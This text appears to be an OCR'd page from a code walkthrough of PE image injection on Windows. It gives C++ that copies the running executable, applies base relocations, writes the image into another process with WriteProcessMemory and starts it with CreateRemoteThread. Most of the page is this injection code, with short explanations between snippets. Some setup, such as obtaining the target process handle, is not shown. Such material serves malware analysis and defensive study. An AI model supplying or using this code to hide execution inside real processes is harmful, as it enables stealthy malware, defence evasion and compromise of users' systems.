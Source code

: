 ```cpp
   // Get current image's base address
	PVOID imageBase = GetModuleHandle(NULL);
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)imageBase;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)imageBase + dosHeader->e_lfanew);

```
`VirtualAlloc` allocates memory in the current process for the size of the image. `memcpy` copies the entire PE image to this newly allocated memory.
```cpp
// Allocate a new memory block and copy the current PE image to this new memory block
	PVOID lImage = VirtualAlloc(NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_READWRITE);
	memcpy(lImage, imageBase, ntHeader->OptionalHeader.SizeOfImage);

```
Calculate Delta and Relocate the Image.
```cpp
// Calculate delta between addresses of where the image will be located in the target process and where it's located currently
	DWORD_PTR deltaBase = (DWORD_PTR)tImage - (DWORD_PTR)imageBase;

	// Relocate localImage, to ensure that it will have correct addresses once its in the target process
	PIMAGE_BASE_RELOCATION relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)lImage + ntHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress);
	DWORD relocationEntriesCount = 0;
	PDWORD_PTR patchedAddress;
	PBASE_RELOCATION_ENTRY relocationRVA = NULL;

	while (relocationTable->SizeOfBlock > 0)
	{
		relocationEntriesCount = (relocationTable->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(USHORT);
		relocationRVA = (PBASE_RELOCATION_ENTRY)(relocationTable + 1);

		for (short i = 0; i < relocationEntriesCount; i++)
		{
			if (relocationRVA[i].Offset)
			{
				patchedAddress = (PDWORD_PTR)((DWORD_PTR)lImage + relocationTable->VirtualAddress + relocationRVA[i].Offset);
				*patchedAddress += deltaBase;
			}
		}
		relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)relocationTable + relocationTable->SizeOfBlock);
	}

```
Writes the relocated image into the target process's allocated memory block and creates a thread in the target process and starts execution at the address of the self function, which has been adjusted using the deltaBase to reflect its new address in the target process.
```cpp
  	// Write the relocated localImage into the target process
	WriteProcessMemory(hExp, tImage, lImage, ntHeader->OptionalHeader.SizeOfImage, NULL);

	// Start the injected PE inside the target process
	CreateRemoteThread(hExp, NULL, 0, (LPTHREAD_START_ROUTINE)((DWORD_PTR)self + deltaBase), NULL, 0, NULL);
```
